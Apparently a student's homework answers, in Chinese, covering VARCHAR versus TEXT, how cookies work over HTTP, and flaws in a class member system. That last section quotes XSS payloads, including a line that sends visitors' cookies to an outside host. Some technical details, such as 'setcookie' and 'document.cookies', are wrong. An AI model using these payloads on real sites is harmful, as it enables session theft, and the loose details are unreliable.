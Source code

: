 ## 資料庫欄位型態 VARCHAR 跟 TEXT 的差別是什麼

VARCHAR：VARiable length CHARacter string（可變長度字串）
VARCHAR 欄位的大小會隨著欄位內容的多寡而變化，但是在輸入完之後會需要一些額外的空間來記錄這個欄位值的大小，這一點點的額外空間會使得這種形式的資料在讀寫時花的時間增加些許。

TEXT：
這類型的欄位不能有預設的值，此外在使用 MySQL 搜尋時也無法用 TEXT 格式的所有內容下去搜尋，如果需要搜尋所有內容的情況下會比較推薦使用 VARCHAR 的型態。


## Cookie 是什麼？在 HTTP 這一層要怎麼設定 Cookie，瀏覽器又會以什麼形式帶去 Server？

cookie 是有些網站為了獲取使用者在該網站的行為資料，或是辨識使用者的身份（像此次作業的有無登入）而儲存在瀏覽器上的資料。另外 cookie 有兩種儲存的形式，一種是只有在你此次瀏覽才有效的，當你關掉瀏覽器就會消失；另一種則是在重新開啟瀏覽器後仍會存在的。

HTTP 協定本身是無狀態的，意思是說你在這個頁面瀏覽東西的資料，他不會帶到下一個頁面去，所以本來的情況下在 Amazon 瀏覽的商品是不會被記住的，我們現在看到的**最近瀏覽**紀錄是伺服器端要求瀏覽器把瀏覽的紀錄存在 cookie 裡面，待下一次造訪 Amazon 的時候會去抓 cookie 裡的資料，這樣一來伺服器就會知道之前瀏覽了哪些商品而把它們顯示出來。

伺服器可以透過回傳 `setcookie` 的 header 來要求瀏覽器儲存 cookie，而瀏覽器每向伺服器發送一個請求，就會傳送一次 cookie 過去，也就是說如果在該伺服器存了五十張圖片，而瀏覽器總共發送的五十次存取圖片的請求，等於也發送了五十次 cookie。若濫用 cookie 的話只會導致流量大幅增加，進而拖慢網站的速度。


## 我們本週實作的會員系統，你能夠想到什麼潛在的問題嗎？

- 能夠很輕易的就埋入程式碼，輸入 HTML 的標籤等於是直接在 index.php 上面輸入，標籤的部分是不會顯示出來的，所以用 `<img src="evil.server.com">` 或是 `<script src="evil.server.com"></script>` 都可以埋入惡意的程式碼。若是直接植入：`document.images[0].src = 'http://my.server.com/getCookie.aspx?cookies=' + encodeURIComponent(document.cookies); ` 甚至可以直接把 cookie 全部打包帶走。
- 另外還沒有做再註冊時擋空格、中文字、特殊符號的限制。
- 也沒有擋重複註冊的問題，註冊時不會去看有沒有跟現有的帳號發生衝突。
